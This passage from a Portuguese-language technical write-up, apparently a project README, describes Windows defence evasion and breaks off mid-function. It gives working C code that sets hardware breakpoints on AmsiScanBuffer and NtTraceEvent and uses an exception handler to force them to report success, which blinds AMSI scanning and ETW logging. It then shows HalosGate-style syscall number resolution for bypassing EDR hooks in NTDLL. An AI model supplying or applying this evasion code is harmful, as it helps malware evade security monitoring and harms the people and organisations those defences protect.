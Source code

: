 Ao definir breakpoints em:

- `AmsiScanBuffer` (função em `amsi.dll`)
- `NtTraceEvent` (função em `ntdll.dll`)

podemos interceptar o **EXCEPTION\_SINGLE\_STEP** e forçar um retorno de sucesso:

```c
LONG CALLBACK HwbpEngineHandler(PEXCEPTION_POINTERS info) {
    PEXCEPTION_RECORD rec = info->ExceptionRecord;
    PCONTEXT ctx = info->ContextRecord;

    if (rec->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        if (rec->ExceptionAddress == amsiAddr) {
            // Força AmsiScanBuffer a retornar S_OK
            ULONG_PTR ret = *(ULONG_PTR*)ctx->Rsp;
            *(ULONG*) (ctx->Rsp + 6 * sizeof(PVOID)) = 0;
            ctx->Rip = ret;
            return EXCEPTION_CONTINUE_EXECUTION;
        }
        if (rec->ExceptionAddress == etwAddr) {
            // Força NtTraceEvent a retornar STATUS_SUCCESS
            ctx->Rip = *(ULONG_PTR*)ctx->Rsp;
            ctx->Rax = STATUS_SUCCESS;
            return EXCEPTION_CONTINUE_EXECUTION;
        }
    }
    return EXCEPTION_CONTINUE_SEARCH;
}
```

#### Exemplo de uso:
```c
// Definindo breakpoints
HwbpEngineBreakpoint(0, amsiAddr);
HwbpEngineBreakpoint(1, etwAddr);
ExceptionHandle = AddVectoredExceptionHandler(1, HwbpEngineHandler);
```
## HalosGate: Obtendo SSNs (Syscall Service Number)

Para obter **Syscall Service Numbers** `(SSNs)` mesmo quando as APIs da **NTDLL** estão `hookadas` vamos utilizar de base o projeto [AsmHalosGate](https://github.com/boku7/AsmHalosGate) que implementa:

1. **Resolução de Endereços**:
   - Obtém o endereço base da NTDLL
   - Localiza a tabela de exportação
   - Encontra os endereços das APIs necessárias

2. **Obtenção de SSNs**:
   - Usa `halosGateUp` e `halosGateDown` para encontrar SSNs válidos
   - Mantém os SSNs em variáveis globais para uso posterior

```c
void getSyscallInfo(char* apiName, char* apiNameStr, DWORD* SSN, PBYTE* addr) {
    *addr = (PBYTE)getApiAddr((DWORD)strlen(apiNameStr), apiNameStr, ntdll, 
                             ntdllExAddrTbl, ntdllExNamePtrTbl, ntdllExOrdinalTbl);
    
    *SSN = findSyscallNumber(*addr);
    if (*SSN == 0) {
        DWORD index = 0;
        while (*SSN == 0) {
            index++;
            *SSN = halosGateUp(*addr, (WORD)index);
            if (*SSN) {
                *SSN = *SSN - index;
                break;
```